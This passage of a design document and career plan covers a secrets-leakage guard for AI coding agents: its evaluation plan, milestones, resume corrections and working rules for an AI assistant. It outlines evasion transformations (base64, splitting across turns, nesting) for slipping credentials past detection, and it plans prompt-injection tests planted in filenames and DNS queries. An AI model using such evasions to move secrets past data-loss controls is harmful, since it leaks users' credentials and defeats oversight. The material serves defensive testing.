1. **Ablation:** Model A (current data), Model B (rebuilt data without Gemma), Model C (rebuilt data with Gemma), all on the same external test set. This measures how well LLM-generated secrets transfer to real code.
2. **Held-out family:** train without one provider (for example Stripe) and test on it, to see whether the model learned general credential features or memorized formats.

**Adversarial suite:** generate evasions by composing transformations (base64, hex, URL and Unicode escaping, splitting across lines, fields, content blocks, or turns, reversing, nesting). Define which transformations are in scope. Arbitrary encryption is undetectable by design, so it goes on the known-bypass list rather than the target list.

**Timeline:** the M3 external evaluation of the current model gives Model A's result. The data rebuild runs in parallel and ships as v1.1 in January 2027. Guard v1 does not wait on it.

## Security principles this project teaches

Each principle below comes from Saltzer and Schroeder's classic design principles or standard security practice. Each maps to a concrete part of Guard you'll build and be able to explain in an interview.

| Principle | Where it shows up in Guard | Interview talking point |
| --- | --- | --- |
| Complete mediation | Egress gate sees every request, not just the read tool | Why guarding one tool isn't enough when the agent has a shell |
| Fail-safe defaults | Fail closed on scanner error; deny built-in reads of sensitive paths | Why fail-open security controls get bypassed |
| Least privilege | Read-only MCP tools; proxy bound to localhost with a session token | How you narrowed what each component can do |
| Defense in depth | Read tool, egress gate, commit gate | What each layer catches that the others miss |
| Economy of mechanism | Small proxy with one job; shared detection core | Why a smaller trusted component is easier to audit |
| Open design | Public benchmark, evasion suite, and known-bypass list | Security that survives the attacker knowing how it works |
| Psychological acceptability | Low false positives, typed placeholders, under 50 ms overhead | Why a tool developers disable protects no one |
| Threat modeling | STRIDE on Guard itself; explicit out-of-scope channels | How you decided what not to defend against |
| Adversarial evaluation | Evasion and prompt-injection suites | Measuring your own weaknesses before an attacker does |
| Secure logging | Keyed hashes only, never values | How security tools become the leak |

## Company signal

All four target companies now sell products that control what data flows into AI tools. Guard is a small, open, measurable version of that problem.

| Company | Related product direction | What Guard signals |
| --- | --- | --- |
| CrowdStrike | [AI Detection and Response and AgentWorks guardrails](https://www.crowdstrike.com/en-us/press-releases/crowdstrike-launches-charlotte-ai-agentworks-ecosystem-for-building-secure-agents/); [Falcon Data Security for AI interactions](https://futurumgroup.com/insights/crowdstrike-deepens-agentic-soc-strategy-across-partners-services-and-devices/) | Endpoint-side data protection, agent security, Rust systems work, measured detection |
| Fortinet | [FortiAI application visibility and control for AI apps](https://www.fortinet.com/corporate/about-us/newsroom/press-releases/2026/fortinet-advances-its-security-operations-platform-with-unified-soc-agentic-ai-and-expanded-endpoint-security) | Controlling AI app traffic at an egress point, which is how Fortinet thinks about security |
| Palo Alto Networks | AI security and AppSec lines (approximate, from memory; verify current product names) | Secure SDLC, DLP for AI, SARIF and CI integration |
| Cisco | AI security and Splunk (approximate, from memory; verify current product names) | Proxy and network-layer thinking, audit telemetry that a SIEM can ingest |

The lab repo then adds the endpoint detection and SOC investigation signal that CrowdStrike and Cisco weigh most.

## Milestones and roadmap

v1 ships in about 8 weeks. Apply to internships from week 2 onward; don't wait for v1.

| Milestone | Dates | Deliverables | Exit criteria |
| --- | --- | --- | --- |
| M0: Repo matches resume | Sep 26 to Oct 5 | Merge Rust core, ONNX, and MCP into main; CI running tests; README with install steps and current benchmark | A stranger can `pip install` it and reproduce your precision and recall numbers |
| M1: Read tool | Oct 6 to Oct 19 | `safe_read` and `safe_grep`; typed placeholders; Claude Code and Codex setup docs with deny rules; secret-type labels in core | Agent can read a repo with planted canaries and none appear in its context |
| M2: Egress gate | Oct 20 to Nov 9 | Localhost proxy; full-request scanning; fail closed; audit log; mock server and canary harness; Claude Code and Codex install adapters with harpo doctor | 0 known-format canaries reach the mock server across all read paths |
| M3: Evaluate and publish | Nov 10 to Nov 23 | Evasion and prompt-injection suites; utility, latency, and competitor comparison study; SARIF and GitHub Action; write-up and 2-minute demo video | All targets in the Evaluation plan measured and published, including failures |

**After v1:** v1.1 (January 2027) ships the retrained detector from Detector training data. v1.2 (February 2027) ships repo preflight. The lab repo starts after that. Each release must leave the repo finished and demoable.

**Schedule risk and cut order:** scope grew after these dates were set (installer adapters, `harpo doctor`, signed-block handling, competitor comparison). If M2 or M3 slips, cut in this order: (1) OpenCode and Copilot adapters, to v1.1; (2) competitor comparison, to v1.1; (3) OCR for images, which stays pass-with-warning; (4) the full SWE-bench run, falling back to the 10-task subset with the result labeled preliminary. Never cut fail closed, `harpo doctor`, the no-plaintext-logging rule, or the canary leakage test.

**Phase 2: harpocrates-lab repo with ThreatChain (Mar to May 2027)**

Turn ThreatChain from an LLM wrapper into an investigation system over real telemetry. This combines the Mini-EDR and ThreatChain items from the ChatGPT roadmap into one repo: the separate harpocrates-lab repo, not the product.

- Lab: a Windows VM with Sysmon, a Linux VM with auditd, and Zeek. Store events in DuckDB or Elastic. No Kafka unless you hit a real throughput need.
- Attacks: Atomic Red Team runs, labeled by ATT&CK technique, inside the lab only.
- Detection: 15 to 25 Sigma rules plus one ML detector reused from your CIC-IDS2017 work.
- Investigation: ThreatChain maps correlated alerts to ATT&CK, cites the log events, and proposes actions behind human approval.
- Red team: prompt injection planted in command lines, filenames, and DNS queries, with before and after numbers.
- Link to Guard: Guard's audit log becomes one telemetry source, so a leaked-secret event can trigger an investigation.

**Phase 3: Cloud detection (summer 2027, optional)**

Use a separate AWS sandbox account with budget alerts and Stratus Red Team or CloudGoat for attack emulation. This is how you legitimately earn the IAM and S3 experience your resume currently lists.

**REFLEX (parallel, research only)**

Cost isn't the blocker it seems. A 4B-parameter model quantized to 4 bits needs roughly 3 to 4 GB of memory for its weights. That runs on a consumer GPU, an Apple Silicon Mac, or a rented cloud GPU billed by the hour. You don't need a DGX Spark. Use the lab repo as REFLEX's cyber range, so experiments run on real telemetry instead of synthetic transcripts.

**ServiceNow ticket project (do this now)**

Before it launches, record a baseline: tickets per release, duplicate rate, and Service Desk time per ticket. After launch, track duplicates caught, false merges, and human overrides. Real production metrics from your job will outweigh any portfolio number. If ITS handles security findings, ask whether the same deduplication could apply to them.

## Resume and repo alignment

Fix these before applying widely. Security interviewers verify claims, and a mismatch between resume and repo costs more than a modest bullet ever gains.

| Resume claim | What's actually true | Fix |
| --- | --- | --- |
| Harpocrates: Rust core, ONNX, MCP server "shipped" | Built, but not on the main branch | Merge to main in M0. Until then, a recruiter clicking your GitHub sees a Python-only project. |
| Harpocrates: "adopted by 3 developer teams" | Unverified here | Be ready to name the teams and how they used it. If it was informal, say "used by." |
| ThreatChain: end-to-end Splunk investigation, approval-gated LangGraph, 189-test suite | You describe it as a simple LLM wrapper that maps attacks to ATT&CK | Rewrite the bullet to match the repo today, or do the lab work first. The repo also needs to be findable under the name on your resume. |
| ThreatChain: 1.00 mean reciprocal rank | A perfect score | Expect scrutiny. A perfect MRR usually means the test set is too small or too easy. Report the set size, or add harder queries and report the real number. |
| Skills: AWS S3 and IAM | No S3 experience; used IAM but never configured it | Remove both until Phase 3, or reword to "IAM (consumer)." Keep Lambda, EKS, and Secrets Manager, which are real. |

What's already strong and should stay: production EKS and Lambda work, 82 stored procedures with zero defects, leading a 3-person team, Security+, and the VA anomaly-detection work, which is directly relevant to detection engineering.

## Interview readiness and open questions

By M3 you should be able to explain each of these without notes:

- Why Shannon entropy alone produces false positives, and what the ML stage adds
- What complete mediation means, and why Guard needs the egress gate
- How an HTTP request reaches the LLM API: DNS, TCP, TLS handshake, and where Guard sits
- Why fail closed, and what it costs in usability
- Why keyed hashes instead of plain hashes in logs
- How prompt injection works, and why tool output is untrusted input
- What your evasion suite found that you haven't fixed yet, and how your results compare with RedactProxy and claude-code-redact

Keep 20 to 30% of your weekly time on coding-interview practice and fundamentals: Windows processes, Linux permissions, TCP/IP, DNS, TLS, and authentication (OAuth, SAML, Kerberos). Project depth gets you the interview; fundamentals pass it.

**Open questions**

- [ ] Confirm how Codex can deny built-in reads per path (hooks or sandbox rules), and whether Codex's ChatGPT sign-in honors a custom base URL
- [ ] Choose the proxy's request-parsing strategy for each provider's API format (Anthropic Messages, OpenAI Responses, OpenAI Chat Completions)
- [ ] Decide whether harpo-read is Python (faster to build) or Rust (one language with the core)
- [ ] Find ThreatChain's current repo name and decide whether to rename it to match the resume
- [ ] Check what baseline ticket data the ServiceNow project can capture before launch

## Developing with an AI assistant

This doc is the spec. Commit a copy to the repo as `docs/design.md`, and give the assistant a short context file that points to it. Work one milestone at a time, one requirement per pull request.

**Target repo layout**

```
harpocrates/
  core/            Rust detection library + Python bindings (FR-CORE)
  read/            MCP read tool (FR-READ)
  gate/            Egress proxy (FR-GATE)
  cli/             harpo CLI, pre-commit, SARIF (FR-COMMIT, FR-UX)
  inspect/         Repo preflight, added in v1.2 (FR-PF)
  adapters/        Per-harness install adapters and doctor checks (FR-INSTALL)
  bench/           Detector, leakage, evasion, red-team, utility, latency suites
  bench/canaries/  Fake secrets only, generated by script
  docs/            design.md, threat-model.md, parser specs, data.md, bypasses.md
  AGENTS.md        Context file for AI assistants (also symlinked as CLAUDE.md)
```

**What goes in AGENTS.md**

- One paragraph on what Guard is, plus a link to `docs/design.md`.
- Build, test, and lint commands.
- The working rules below.
- The current milestone and which requirement IDs are in progress.

**Working rules for the assistant**

1. Work on one requirement ID at a time. Write its acceptance test first, named after the ID.
2. Never weaken a security requirement to make a test pass. In particular, never switch fail-closed to fail-open, and never log secret values. Stop and ask instead.
3. Only use generated canary secrets in tests and fixtures. Never paste a real credential into the repo or a prompt.
4. Any change to thresholds, placeholder format, or logging needs a note explaining the trade-off.
5. Benchmark suites and evasion cases are never used for training or tuning.
6. Every pull request lists the requirement IDs it closes and the tests that prove them.

**Your rule:** you own every design decision. Before merging, you should be able to explain each change without the assistant. Interviewers will ask.

**Kickoff prompts per milestone**

| Milestone | Prompt to start the session |
| --- | --- |
| M0 | "Read docs/design.md. We're on M0. Inventory every branch, list what each contains, and propose a merge plan into main that satisfies FR-CORE-01, FR-COMMIT-01, and DOC-02. Don't merge yet." |
| M1 | "We're on M1. Draft the tool interface for safe\_read and safe\_grep per FR-READ-01 and FR-READ-02, and the canary repo generator. Tests first." |
| M2 | "We're on M2. Before any code, write the parser spec for FR-GATE-02 for both provider formats, and the transport notes for FR-GATE-09. I'll review them before we implement." |
| M3 | "We're on M3. Build the utility benchmark exactly as the Utility benchmark method describes, starting with the 10-task smoke subset and the pre-registered margin file." |
